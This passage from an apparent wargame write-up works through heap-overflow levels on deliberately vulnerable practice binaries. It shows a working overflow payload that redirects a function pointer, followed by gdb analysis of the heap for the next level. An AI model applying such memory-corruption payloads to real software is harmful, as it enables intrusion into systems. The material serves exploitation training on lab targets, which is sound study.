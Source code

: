 ```sh
user@hole-in-bin:~/hole-in-bin/ex10$ ./bin `python -c "print 'A'*72 + '\x64\x84\x04\x08'"`
data is at 0x8cd5008, fp is at 0x8cd5050
level passed
```

-   ## EX11

### Objective

This level is completed when you see the “and we have a winner” message.

### Binary functionality

Running the binary normally just results in `Segmentation fault`. After supplying two arguments the program prints `and that's a wrap folks!`.

### Process and solution

There are 2 functions, `main` and `winnner`.

```sh
(gdb) info functions
All defined functions:

File heap1/heap1.c:
int main(int, char **);
void winner(void);
```

![img](https://i.imgur.com/DHaPRFz.png)

The main function allocates four 8-byte memory blocks using malloc and initializes the first and third blocks with the values 1 and 2, respectively. It stores pointers to the second and fourth blocks in the first and third blocks. Then, it copies strings from command-line arguments into the second and fourth blocks. Finally, it prints a string stored at address 0x804864b using puts, cleans up the stack, and returns. This function demonstrates dynamic memory allocation and pointer manipulation.

The `winner` function prints `"and we have a winner @ %d\n"` so thats again where we need to redirect the execution of the code.

We know what we need 2 arguments so lets test it in gdb and examine the heap

```sh
# set breakpoint after last strcpy
(gdb) break *0x0804855a
Breakpoint 1 at 0x804855a: file heap1/heap1.c, line 34.

# run with 2 arguments
(gdb) r AAAA BBBB

# find heap
(gdb) info proc mappings
process 1420
Mapped address spaces:

        #...
         0x804a000  0x806b000    0x21000        0x0 [heap]
        # ...

# examine heap
(gdb) x/32wx 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
 # ...
```